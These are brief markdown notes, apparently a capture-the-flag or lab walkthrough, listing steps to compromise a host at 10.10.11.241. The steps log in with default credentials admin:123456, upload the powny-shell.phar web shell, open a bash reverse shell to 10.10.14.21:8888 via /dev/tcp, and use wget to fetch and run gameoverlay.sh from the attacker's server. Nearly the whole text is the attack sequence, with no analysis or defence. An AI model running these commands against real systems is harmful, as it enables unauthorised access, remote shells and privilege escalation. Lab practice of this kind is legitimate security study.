 1. Login to [url](http://10.10.11.241:8080/) and login as admin:123456
2. Upload **powny-shell.phar**
3. Access http://10.10.11.241:8080/uploads/powny-shell.phar
4. nc -lvnp 8888
5. In Powny do: bash -c 'exec bash -i &>/dev/tcp/10.10.14.21/8888 <&1'
6. [[Python3|Stabilize shell]]
7. python
8. Go to tmp
9. wget http://10.10.14.21:8000/gameoverlay.sh
10. chmod +x gameoverlay.sh
11. ./gameoverlay.sh
12. Stabelize shell